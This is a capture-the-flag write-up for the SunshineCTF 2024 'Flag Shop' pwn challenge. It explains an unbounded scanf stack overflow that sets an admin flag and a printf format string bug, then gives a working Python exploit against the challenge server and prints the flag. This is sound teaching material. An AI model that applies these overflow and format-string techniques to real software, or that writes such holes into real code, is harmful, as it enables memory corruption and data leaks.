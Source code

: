 # Flag Shop
> ### Category: pwn
>
> Welcome to the SECURE shop, where your goal is to explore the platform and uncover the secrets hidden within. After creating a user account, you'll interact with different features of the system. However, the admin panel remains restricted, and your challenge is to figure out how to access it.
>
> `nc 2024.sunshinectf.games 24001`
>
> ### Attachments
> `flagshop`

## Overview
The application first asks you to create an account (you provide pronouns and username, and the application sets an "is admin" flag to 0) and then allows you to print your info or display admin panel (choosing this option also terminates the program).

## Buffer Overflow
Consider the following fragments of decompiled code from `main`:
```c
void main(void) {
  int iVar1;
  char choice [2];
  account account;

  // create the account
  ...

  do {
    printf(banner);
    iVar1 = __isoc99_scanf("%s",choice);
    // perform an operation based on user's choice
    ...
  } while( true );
}
```

The buffer for `choice` is only 2 characters, but the call to `scanf` doesn't limit the number of characters read. Looking at the layout of local variables of `main`:
```
                undefined main()
undefined         AL:1           <RETURN>
account           Stack[-0x28]   account
undefined2        Stack[-0x2a]:2 choice
```
`choice` is stored in a lower address than `account`, so it's possible to overflow values of `account` (pronouns - 8 bytes, username - 16 bytes and the "is admin" flag - 4 bytes) using this `scanf` call.

## Format string vulnerability
Now take a look at `load_panel` function:
```c
void load_panel(account *account) {
  void *__ptr;
  
  clear();
  if (account->is_admin == 0) {
    printf("\x1b[31m\n[ Access Denied! ]\n\x1b[m");
    return;
  }
  __ptr = (void *)read_flag("flag.txt");
  printf("\x1b[32m[ SUCCESS! Here\'s your flag current user: ");
  printf(account->username);
  free(__ptr);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
If the account is marked as `admin` (which is possible to do using the BOF), this function will store a pointer to the flag in a local variable and call `printf` on the username. This call introduces a format string vulnerability, which will make it possible to print the flag. Let's look at the layout of local variables in this function as well:
```
                undefined __stdcall load_panel(account * account)
undefined         AL:1           <RETURN>
account *         RDI:8          account
undefined8        Stack[-0x10]:8 local_10 
undefined8        Stack[-0x20]:8 local_20  
                load_panel
001015a1 f3 0f 1e fa     ENDBR64
001015a5 55              PUSH       RBP
001015a6 48 89 e5        MOV        RBP,RSP
001015a9 48 83 ec 20     SUB        RSP,0x20

...

001015de 48 89 c7        MOV        RDI,RAX
001015e1 e8 50 fd ff ff  CALL       read_flag
001015e6 48 89 45 f8     MOV        qword ptr [RBP + local_10],RAX
```
The pointer to the flag is stored at `rbp + local_10` (`rbp - 0x10`) which is `rsp + 0x10` (so as the 3rd quadword on the stack), therefore it will be passed to `printf` as the 3rd stack argument, which is 9th argument in general (excluding the format string). Thus, it can be printed by using `"%9$s"` format specifier.

## The exploit
The following code exploits both of the vulnerabilities and prints the flag:
```py
from gdb_plus import *

dbg = Debugger('./flagshop', script='init-gef').remote('2024.sunshinectf.games', 24001)

io = dbg.p

dbg.c(wait=False)

io.sendlineafter(b'username ]', b'foo')
io.sendlineafter(b'pronouns ]', b'bar')

payload = b'1'
payload += b'X' # padding (1 additional byte of the `choice` buffer)
payload += b'A' * 8 # pronouns (8 bytes)
username = b'%9$s' # format string to print the 9th argument (or 3rd stack argument) as a string
payload += username
payload += b'B' * (16 - len(username)) # username (16 bytes)
payload += b'*' # 1st byte of admin flag

io.sendlineafter(b'==========================================\n', payload)

log.info(io.recvall().decode())
```

## Flag
`sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}`